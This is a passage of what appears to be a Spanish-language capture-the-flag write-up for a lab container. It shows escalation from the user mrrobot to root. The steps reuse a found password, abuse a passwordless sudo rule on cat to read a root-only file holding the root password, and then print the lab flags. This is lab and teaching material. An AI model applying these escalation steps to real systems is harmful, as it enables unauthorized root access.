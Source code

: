 Tenemos la siguiente contrasena que podremos probar con los dos usuarios del sistema **( root / mrrobot )**:
```bash
Password@$$!123
```

```bash
# Comando para escalar al usuario: ( mrrobot )
su mrrobot # ( Password@$$!123 )
```

###### Usuario `[ mrrobot ]`:
Listando los permisos de este usuario:
```bash
User mrrobot may run the following commands on 16e597a9e1d0:
    (ALL : ALL) NOPASSWD: /usr/bin/cat # Tenemos una via potencila de migrar a root
```

Ahora tenemos este archivo:
```bash
ls -l /opt/
```

El cual no teniamos capacidad de lectura:
```bash
-rw------- 1 root root 1827 Nov 15  2024 SistemUpdate
```

Nos aprovechamos del binario: **cat** para leer su contendio ya que podemos ejecutarlo como **root**
```bash
sudo -u root /usr/bin/cat /opt/SistemUpdate 
```

Tenemos la posible contrasena del usuario **root**:
```bash
Extracting user root:rooteable from packages: 50%
```

Nos logueamos como **root**
```bash
su root # ( rooteable )
```

---

## Evidencia de Compromiso
Flags:
```bash
-rw-r--r--  1 root root   33 Nov 15  2024 TrueRoot.txt
-rw-r--r--  1 root root   41 Nov 15  2024 root.txt

f034967ad357f8f912740101d3af5e71
Don't think it's that easy, keep looking
```

```bash
# Captura de pantalla o output final
root@16e597a9e1d0:~# whoami
root
```

---